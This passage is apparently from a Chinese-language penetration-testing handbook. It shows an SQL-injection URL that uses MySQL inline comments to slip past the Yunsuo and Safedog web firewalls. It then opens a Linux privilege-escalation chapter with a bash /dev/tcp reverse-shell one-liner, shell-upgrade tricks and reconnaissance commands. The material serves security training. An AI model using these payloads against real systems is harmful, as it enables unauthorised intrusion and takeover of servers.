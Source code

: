 云锁是基于云检测的，在服务器端安装一个模块即可进行安全防护，可谓方便快捷。本小节简单介绍一下如何规避云锁的检测方法，我们可以先使用绕过安全狗WAF的方式进行测试。

使用注释方式`/*!90010a*/`可以绕过拦截，成功执行SQL语句

> `http://172.16.26.159/phptest1.php?id=1%27/*!600010a*/union%20/*!90010a*/select%201,database/*!90010a*/()%23`

![passwaf2](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/passwaf2.png)

# 15-权限提升-linux提权

**非交互式shell**

无上下文交互的一般是非交互式shell，如webshell大马虽然能执行命令，但大马执行命令以函数实现，前后端的输入输出为主，甚至只能用于一次性的信息收集如whoami，id等，以http请求为主来进行输入输出

![非交互式shell](E:\file\知识\1-广东技术分享\1-2021年12月\非交互式shell.png)

**交互式shell**

利用webshell执行bash -i >& /dev/tcp/ip/port 0>&1来反弹一个最简单的shell回来并用nc接收，这样获得了一个交互式shell，追踪数据发现是从http到tcp交互

![交互式shell](E:\file\知识\1-广东技术分享\1-2021年12月\交互式shell.png)

但是这样反弹有些命令是执行不了的，可以通过以下方式获取**完美的交互式shell**

1. ```bash
   root@kali:~/# python -c 'import pty; pty.spawn("/bin/bash")'
   ```

2. [socat](https://github.com/cornerpirate/socat-shell)

3. ```bash
   root@kali:~/# script /dev/null
   Script started, file is /dev/null
   root@kali:~/# exit
   Script done, file is /dev/null
   ```

## 01-内核漏洞提权

内核漏洞提权是指普通用户访问操作系统内核，利用内核漏洞，提升到 root 权限。

### 01-信息搜集

- 查看环境变量
  env
- 查看系统全部信息
  uname -a
- 查看Centos7 版本
  cat /etc/*-release
- 显示当前PATH 环境变量
  echo $PATH
- 查看内核版本
  uname -r
- 查看Ubuntu 和 Debian 版本
  cat /etc/issue
- 查看计划任务
  cat /etc/crontab